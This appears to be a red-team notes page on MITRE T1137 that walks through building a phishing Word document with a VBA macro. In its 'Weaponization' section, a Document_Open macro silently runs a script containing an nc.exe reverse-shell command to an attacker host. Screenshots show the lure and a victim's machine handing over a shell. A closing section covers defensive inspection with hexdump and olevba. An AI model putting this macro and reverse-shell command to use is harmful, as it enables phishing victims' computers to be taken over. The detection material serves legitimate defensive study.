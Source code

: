 ```yaml
---
description: Code execution with VBA Macros
---
```


# T1137: Phishing - Office Macros

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

## Weaponization

1. Create new word document (CTRL+N)
2. Hit ALT+F11 to go into Macro editor
3. Double click into the "This document" and CTRL+C/V the below:

{% code title="macro" %}
```javascript
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```
{% endcode %}

{% code title="C:\tools\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode %}

This is how it should look roughly in:

![](../../../.gitbook/assets/macros-code.png)

ALT+F11 to switch back to the document editing mode and add a flair of social engineering like so:

![](../../../.gitbook/assets/macros-body.png)

Save the file as a macro enabled document, for example a Doc3.dotm:

![](../../../.gitbook/assets/macros-filename.png)

{% file src="../../../.gitbook/assets/Doc3.dotm" %}
Dot3.dotm - Word Document with Embedded VBA Macros
{% endfile %}

## Execution

Victim launching the Doc3.dotm:

![](../../../.gitbook/assets/macro-victim.png)

...and enabling the content - which results in attacker receiving a reverse shell:

![](../../../.gitbook/assets/macro-shell.png)

## Observations

The below graphic represents the process ancestry after the victim had clicked the "Enable Content" button in our malicious Doc3.dotm document:

![](../../../.gitbook/assets/macro-ancestry.png)

## Inspection

If you received a suspicious Office document and do not have any malware analysis tools, hopefully at least you have access to a WinZip or 7Zip and Strings utility or any type of Hex Editor to hand.

Since Office files are essentially ZIP archives (PK magic bytes):

```bash
root@remnux:/home/remnux# hexdump -C Doc3.dotm | head -n1
00000000  50 4b 03 04 14 00 06 00  08 00 00 00 21 00 cc 3c  |PK..........!..<|
```

...the file Dot3.dotm can be renamed to **Doc3.zip** and simply unzipped like a regular ZIP archive. Doing so deflates the archive and reveals the files that make up the malicious office document. One of the files is the `document.xml` which is where the main document body text goes and `vbaProject.bin` containing the evil macros themselves:

![](../../../.gitbook/assets/macros-deflated.png)

Looking inside the `document.xml`, we can see the body copy we inputted at the very begging of this page in the [Weaponization](t1137-office-vba-macros.md#weaponization) section:

![](../../../.gitbook/assets/macros-document-unzipped.png)

Additionally, if you have the strings or a hex dumping utility, you can pass the `vbaProject.bin` through it. This can sometimes give you as defender enough to determine if the document is suspicious/malicious.

Running `hexdump -C vbaProject.bin` reveals some fragmented keywords that should immediately raise your suspicion - **Shell, Hide, Sub\_Open** and something that looks like a file path:

![](../../../.gitbook/assets/macros-hex-shell.png)

If you have a malware analysis linux distro Remnux, you can easily inspect the VBA macros code contained in the document by issuing the command `olevba.py filename.dotm`. As seen below, the command nicely decodes the `vbaProject.bin` and reveals the actual code as well as provides some interpretation of the commands found in the script:

![](../../../.gitbook/assets/macros-olevba.png)

{% hint style="danger" %}
Note that the olevba can be fooled as per [http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen](http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen)
{% endhint %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1137" %}
